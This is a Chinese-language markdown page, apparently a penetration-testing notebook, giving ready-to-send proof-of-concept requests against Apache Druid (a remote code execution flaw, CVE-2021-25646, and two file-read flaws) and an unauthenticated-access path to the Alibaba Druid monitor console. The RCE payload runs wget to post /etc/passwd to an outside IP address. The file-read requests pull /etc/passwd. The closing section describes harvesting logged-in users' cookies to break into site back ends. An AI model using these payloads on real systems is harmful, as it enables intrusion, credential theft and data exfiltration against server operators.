

目前广为人知的Druid有两个，一个是阿里巴巴开源的Durid数据库连接池，一个是MetaMarkets开源的分布式，实时多维OLAP分析的数据处理系统。

## Apache Druid 

### Apache Druid 命令执行(CVE-2021-25646)

由于Apache Druid能够执行嵌入在各种类型的请求中的用户提供的JavaScript代码，经过身份认证的攻击者可以构造恶意请求，使用当前Druid权限在目标系统上执行任意代码。

Apache Druid < 0.20.1

需要访问Druid控制台

poc

~~~
POST /druid/indexer/v1/sampler?for=filter

{
          "type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript","function":"function(value){return java.lang.Runtime.getRuntime().exec('wget --post-file /etc/passwd http://101.43.138.109:2333/')}","dimension":"added","":{"enabled":"true"}}}}},"samplerConfig":{"numRows":500,"cacheKey":"79a5be988bf94d42a6f219b63ff27383"}
        }
~~~

### Apache  Druid 文件读取漏洞 CVE-2021-26920

Apache Druid < 0.21.0

~~~
POST /druid/indexer/v1/sampler?for=connect

{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"http","uris":["file:///etc/passwd"]}}},"samplerConfig":{"numRows":500}}
~~~

### apache-druid文件读取-cve-2021-36749

Apache Druid  0.21.0 or 0.21.1

~~~
POST /druid/indexer/v1/sampler?for=connect

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
~~~

这两个文件读取漏洞都是一个点，根据版本不同poc也不同

---

## Alibaba Druid

### druid-monitor-unauth Druid  数据库连接池控制台未授权访问

1、Druid是阿里巴巴[数据库](https://cloud.tencent.com/solution/database?from=10680)事业部出品，为监控而生的数据库连接池。

2、Druid提供的监控功能，监控SQL的执行时间、监控Web URI的请求、Session监控。

3、当开发者配置不当时就可能造成未授权访问漏洞。

~~~
path: /druid/index.html
~~~

通过URL监控可以查看网站后台地址，通过Session监控可以获取已登录用户的cookie。合理运用可以登录网站后台进行后续渗透。

